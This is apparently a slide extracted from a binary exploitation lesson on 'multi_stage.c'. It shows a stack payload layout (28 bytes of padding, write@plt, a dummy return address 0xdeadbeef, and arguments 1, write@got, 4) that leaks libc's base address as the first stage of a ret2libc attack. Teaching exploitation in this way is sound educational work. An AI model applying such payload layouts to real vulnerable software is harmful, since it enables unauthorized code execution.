

# multi_stage.c: leak the libc base address
write(1, write@got, 4)

leak write@libc’s address
shellcode structure
| dummy “A” \* 28 |
| --- |
| write@plt |
| 0xdeadbeef |
| 1 |
| write@got |
| 4 |
call write()

next func()

argument 1

argument 2

argument 3